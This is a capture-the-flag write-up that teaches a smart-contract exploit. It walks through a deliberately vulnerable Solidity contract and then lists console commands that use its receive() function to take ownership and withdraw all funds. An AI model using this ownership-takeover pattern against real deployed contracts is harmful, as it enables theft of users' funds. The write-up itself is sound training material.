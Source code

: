 # Fallback

In this level, we will need to analyse carefully a smart contract and then find a way to hack it.

We will beat this level if we:

1. Claim ownership of the contract.
2. Reduce its balance to 0.

## Contract's Code Breakdown

[The Smart Contract's Code can be seen here.](Fallback.sol)

```solidity
mapping(address => uint) public contributions;
address public owner;
```

This smart contract has 2 public variables:

- contributions: a mapping to store each contributor's address and the amount contributed.
- owner: variable to store the address of the owner.

```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
```

The constructor here simply sets the owner to the deployer's adress and sets its contribution to 1000 ethers.

```solidity
 modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

the onlyOwner modifier checks if the caller is indeed the owner, if not the transaction will revert with the message "caller is not the owner".

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```
This is the function to call if we want to make a contributions, this method only accepts contributions of 0.001 ethers and lower, if the caller has more contributions than the owner ( the initial 1000 ethers ) ownership will be transferred to the caller.
**We can see here that if we want to take ownership that way it will require us to send more than 1000 ethers to the contract in more than a million transactions.**

```solidity
function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }
```

This method simply returns the amount contributed by the caller.

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

This method transfers all contract's balance to the owner, it has the onlyOwner modifier which means it is only called by the owner.

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

`receive()` is a special function in solidity, it is executed on contract call with empty calldata or plain ether transfers (via `.send()` or `.transfer()`).
It was added after the 0.6 version to separate between the 2 former uses of the `fallback` function :
* receiving ether and no data.
* receiving data and the function called is not found.

Now receive serves the first purpose.It has no **"function"** keyword like other functions, it cannot have arguments and cannot return anything and must have external visibility and payable state mutability.

Now when reading the receive function, we notice that we can get ownership of the contract just by invoking receive() (sending some plain ether) and having contributed before.

Let's start contributing by sending any value less than 0.001 ether (10<sup>^15</sup> wei):

```javascript
>  await contract.contribute({value: 100}) // calling contribute function with a value of 100 wei
```
After confirming the transaction and waiting for it to be mined let's make sure if we did contribute or no by calling the getContribution():
```javascript
>  (await contract.getContribution()).toString()
<· "100"
```
Now let's invoke the receive function by sending some plain ether with **[web3.eth.sendTransaction()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#sendtransaction)** :

```javascript
>  await contract.sendTransaction({value: 100})
```

Now we should be the owner of the smart contract, let's call withdraw() and thus reducing the contract's balance to 0 then submit the instance:

```javascript
>  await contract.withdraw()
```

### ***Congratulations, You now know the basics of how ether goes in and out of contracts, including the usage of the fallback method.***
